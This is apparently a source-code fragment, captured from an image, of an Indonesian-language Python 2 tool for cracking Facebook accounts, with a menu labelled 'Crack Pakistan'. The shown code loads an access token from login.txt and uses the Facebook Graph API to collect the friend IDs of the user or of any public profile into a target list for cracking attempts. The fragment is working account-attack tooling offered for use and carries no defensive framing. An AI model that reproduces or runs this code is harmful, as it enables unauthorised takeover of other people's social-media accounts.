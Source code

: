 #### CRACK PAKISTAN ####
def crack_pakis():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print '\033[0;97m! Token Invalid'
		os.system('rm -rf login.txt')
		time.sleep(1)
		Exit()
	os.system('clear')
	print logo
	print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	print ('\033[0;97m   1.\033[0;97m Crack Dari Daftar Teman')
	print ('\033[0;97m   2.\033[0;97m Crack Dari Public/Teman')
	print ('\033[0;97m   0.\033[0;97m Kembali')
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
	pilih_pakis()

### PILIH PAKISTAN ###
def pilih_pakis():
	teak = raw_input('\033[0;97m   >\033[0;97m ')
	if teak =="":
		print '\033[0;97m   ! Isi Yg Benar'
		pilih_pakis()
	elif teak =="1":
		os.system('clear')
		print logo
		print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif teak =="2":
		os.system('clear')
		print logo
		print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
		idt = raw_input("\033[0;97m   • \033[0;97mID Public/Teman \033[0;97m:\033[0;97m ")
		try:
			pok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			sp = json.loads(pok.text)
			print "\033[0;97m   •\033[0;97m Nama \033[0;97m:\033[0;97m "+sp["name"]
		except KeyError:
			print "\033[0;97m   ! ID public/teman tidak ada"
			raw_input("\n\033[1;97m   < \033[0;97mKembali \033[0;97m>")
			crack_pakis()
		except requests.exceptions.ConnectionError:
			print '\033[0;97m   ! Tidak ada koneksi'
			Exit()
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif teak =="0" or teak =="00":
		crack_teman()
	else:
		print '\033[0;97m   ! Isi Yg Benar'
		pilih_pakis()
	